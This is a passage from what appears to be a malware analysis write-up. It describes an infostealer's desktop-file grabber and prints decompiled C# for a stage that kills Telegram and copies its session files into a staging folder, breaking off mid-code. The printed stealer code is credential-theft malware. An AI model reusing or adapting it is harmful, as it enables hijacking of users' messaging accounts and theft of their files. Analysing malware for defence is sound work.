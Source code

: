 ```csharp
	}
}
```

`GrabberDesktop` function:

- Creates a target directory at `Variables.workdir\Grabbers\DesktopFiles` if it doesn't exist.
- Scans all files located on the user’s desktop (`Variables.desktop`).
- Filters and selects files that have `.pdf`, `.txt`, `.sql`, `.jpg`, or `.png` extensions.
- Increments `Variables.foundFilesFromDesktop` for each matching file found.
- Extracts filenames (without path) into a second list to prepare for copying.
- Before copying, checks if a file with the same name already exists at the destination:
    - If it does, deletes the existing file to prevent overwriting issues.
- Copies each selected file from the desktop to the `DesktopFiles` directory.
- Silently handles any exceptions via a `try-catch` block — no error reporting or logging.

# Stage 6: Grabber Telegram sesssion

```csharp
using System;
using System.Diagnostics;
using System.IO;
using Main;

namespace Messengers
{
	// Token: 0x02000005 RID: 5
	public class Telegram
	{
		// Token: 0x0600000D RID: 13 RVA: 0x00002864 File Offset: 0x00000A64
		public static void GrabberTelegramSession()
		{
			string text = Telegram.SearchPathTelegram();
			try
			{
				Telegram.TelegramProcessKill(ref text);
				bool flag = text == "Not Found!";
				if (!flag)
				{
					Variables.telegramSessionFound = "Found! Success";
					Directory.CreateDirectory(Variables.workdir + "\\Grabbers\\TelegramSession");
					string text2 = Variables.workdir + "\\Grabbers\\TelegramSession";
					string text3 = text;
					foreach (string text4 in Directory.GetFiles(text3))
					{
						bool flag2 = File.Exists(text2 + "\\" + Path.GetFileName(text4));
						if (flag2)
						{
							File.Delete(text2 + "\\" + Path.GetFileName(text4));
						}
						File.Copy(text4, text2 + "\\" + Path.GetFileName(text4));
					}
					foreach (string text5 in Directory.GetDirectories(text3))
					{
						string text6 = text2 + "\\" + text5.Split(new char[] { '\\' })[text5.Split(new char[] { '\\' }).Length - 1];
						Directory.CreateDirectory(text6);
						foreach (string text7 in Directory.GetFiles(text5))
						{
							bool flag3 = File.Exists(text6 + "\\" + Path.GetFileName(text7));
							if (flag3)
							{
								File.Delete(text6 + "\\" + Path.GetFileName(text7));
```